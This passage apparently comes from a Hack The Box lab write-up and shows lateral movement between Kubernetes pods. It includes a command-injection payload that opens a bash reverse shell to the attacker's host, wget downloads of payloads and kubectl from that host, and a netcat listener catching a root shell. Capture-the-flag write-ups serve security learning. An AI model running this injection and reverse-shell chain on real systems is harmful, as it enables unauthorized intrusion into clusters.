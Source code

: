 Maybe we can re-use the same exploit to get  access to the dev-pods as well?
Upload the cURL data-files (with new reverse port) and attack the dev-pod!

  root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# wget http://10.10.14.2:4499/user-upload.json
  root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# wget http://10.10.14.2:4499/user-reverse.json

  root@webapp-deployment-5d764566f4-mbprj:/tmp# curl -v -X PUT 172.17.0.6:3000 -H "Content-Type: application/json" -d "@user-upload.json"
    ..
    > PUT / HTTP/1.1
    > Host: 172.17.0.6:3000
    < HTTP/1.1 200 OK
    ..
    {"ok":true}

  root@webapp-deployment-5d764566f4-mbprj:/tmp# curl -v -X POST 172.17.0.6:3000/upload -H "Content-Type: application/json" -d "@user-reverse.json"
    ..
    > POST /upload HTTP/1.1
    > Host: 172.17.0.6:3000
    < HTTP/1.1 200 OK
    ..
    {"ok":true,"Uploaded_File":"$(/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/4400 0>&1')"}

  [root:/git/htb/unobtainium]# nc -lvnp 4400                                                                                        (master✱)
    listening on [any] 4400 ...
    connect to [10.10.14.2] from (UNKNOWN) [10.10.10.235] 41198
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    root@devnode-deployment-cd86fb5c-6ms8d:/usr/src/app# id && hostname
      uid=0(root) gid=0(root) groups=0(root)
      devnode-deployment-cd86fb5c-6ms8d


4. We successfully moved laterally and got access to the devnode! Redo our steps with kubectl and see if we can create a malicious pod now.

root@devnode-deployment-cd86fb5c-6ms8d:/tmp# wget http://10.10.14.2:4499/kubectl
root@devnode-deployment-cd86fb5c-6ms8d:/tmp# install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl

However, none of the previous steps work:

root@devnode-deployment-cd86fb5c-6ms8d:/tmp# ./kubectl get namespaces
  Error from server (Forbidden): namespaces is forbidden: User "system:serviceaccount:dev:default" cannot list resource "namespaces" in API group "" at the cluster scope
root@devnode-deployment-cd86fb5c-6ms8d:/tmp# ./kubectl get pods
  Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:dev:default" cannot list resource "pods" in API group "" in the namespace "dev"

From the webapp-pod we found several move namespaces, trying to get pods from each of them doesn't work, neither can we exec pods:
  root@devnode-deployment-cd86fb5c-6ms8d:/tmp# ./kubectl auth can-i exec pods
    no
